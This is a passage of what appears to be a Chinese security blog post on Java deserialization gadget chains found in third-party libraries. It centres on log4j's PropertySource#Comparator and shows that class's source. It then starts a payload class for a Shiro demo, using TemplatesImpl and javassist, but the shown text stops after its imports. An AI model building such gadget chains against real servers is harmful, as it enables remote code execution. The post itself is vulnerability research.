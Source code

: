 

----





## 第三方依赖

在挖掘完前面两个类的时候，我就在想其他第三方组件里面会不会存在呢？于是乎就有了下面的结果，测试了43个开源项目，其中15个有。这里只谈论了两个组件apache/log4j、apache/Commons-lang

![image-20220221183209062](https://cdn.jsdelivr.net/gh/SummerSec/Images/9u329ec9u329ec.png)



----

### PropertySource#Comparator



`PropertySource#Comparator`是在组件`log4j-api`下的一个类，log4j是Apache基金会下的一个Java日志组件，宽泛被应用在各大应用上，在`spring-boot`也能看到其身影。

![image-20220221183100323](https://cdn.jsdelivr.net/gh/SummerSec/Images/0u310ec0u310ec.png)



![image-20220221183140909](https://cdn.jsdelivr.net/gh/SummerSec/Images/41u3141ec41u3141ec.png)



`PropertySource#Comparator`的代码只有八行，其中比较方法也是有参方法，参数类型是`PropertySource`。

```
class Comparator implements java.util.Comparator<PropertySource>, Serializable {
    private static final long serialVersionUID = 1L;

    @Override
    public int compare(final PropertySource o1, final PropertySource o2) {
        return Integer.compare(Objects.requireNonNull(o1).getPriority(), Objects.requireNonNull(o2).getPriority());
    }
}
```

构造成gadget链的最终代码如下，在第38行开始是实现接口`PropertySource`的，不过也可以只写一个实现类就行。

ps：这里就不在演示效果。

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.logging.log4j.util.PropertySource;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
```